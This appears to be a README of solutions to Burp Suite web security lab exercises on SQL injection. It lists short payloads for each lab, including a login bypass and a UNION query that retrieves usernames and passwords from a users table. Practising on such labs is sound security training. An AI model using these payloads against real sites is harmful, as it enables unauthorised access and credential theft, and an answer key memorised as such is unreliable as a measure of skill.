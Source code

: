 # Burpsuite Lab Answers
## SQL injection 
### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
#### Solution: '+OR+1=1--
![](Images/SQL-1.png)

### SQL injection vulnerability allowing login bypass
#### Solution: administrator'--
![](Images/SQL-2.png)

### SQL injection UNION attack, determining the number of columns returned by the query
#### Solution: 'UNION SELECT NULL, NULL, NULL--
![](Images/SQL-3.png)

### SQL injection UNION attack, finding a column containing text
#### Solution: 'UNION SELECT NULL,'HELLO BUDDY',NULL--
![](Images/SQL-4.png)

### SQL injection UNION attack, retrieving data from other tables
#### Solution: 'UNION SELECT username, password FROM users--
![](Images/SQL-5a.png)
![](Images/SQL-5b.png)
